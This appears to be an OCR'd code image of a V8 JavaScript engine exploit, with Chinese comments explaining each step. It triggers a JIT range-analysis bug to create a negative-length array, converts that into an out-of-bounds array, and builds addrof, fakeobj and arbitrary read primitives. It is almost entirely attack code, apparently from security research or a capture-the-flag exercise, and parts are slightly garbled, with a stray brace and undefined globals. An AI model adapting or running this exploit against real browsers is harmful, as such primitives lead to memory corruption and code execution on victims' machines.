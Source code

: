 ```
gc() { for(let i = 0; i < 100; i++) { new ArrayBuffer(0x1000000); } }
}
 
function foo(flag) {
// 触发漏洞，使得len==1且Range为(-4294967295, 0)
let x = -1;
if (flag) x = 0xFFFF_FFFF;
let len = 0 - Math.max(0, x);
// 利用array.shift()来构造出长度为-1(0xFFFFFFFE)的数组
let vuln_array = new Array(len);
vuln_array.shift();
 
let oob_array = [1.1, 1.2, 1.3];
 
if (flag) {
%DebugPrint(oob_array);
//%SystemBreak();
}
return [vuln_array, oob_array];
}
 
function confusion_to_oob() {
console.log("[+] convert confusion to oob......");
// 触发JIT
for (let i=0; i<0x10000; i++) {foo(false);}   
// gc
helper.gc();
// 修改oob_array的length
[vuln_array, oob_array] = foo(true);
vuln_array[16] = 0xc00c;
 
console.log("    oob_array.length: " + helper.hex(oob_array.length));
}
 
function addrof(obj) {
vuln_array[7] = obj;
 
return helper.f2i(oob_array[0]) & 0xFFFF_FFFFn;
}
 
function fakeobj(addr) {
oob_array[0] = helper.i2f(addr);
 
return vuln_array[7];
}
 
function get_arw() {
console.log("[+] get absolute read/write access......");
 
let oob_array_map_and_properties = helper.f2i(oob_array[3]);
point_array = [helper.i2f(oob_array_map_and_properties), 1.1, 1.2, 1.3];
fake = fakeobj(addrof(point_array) - 0x20n);
}
 
function arb_read(addr) {
if (addr %2n == 0) {
addr += 1n;
}
// 2n << 32n是为了填充length字段，在指针压缩下length的值会被改为0x1；
// -8n是因为elements字段指向的内容会自动+8来跳过map和length
point_array[1] = helper.i2f((2n << 32n) + addr -8n);
return fake[0];
}
```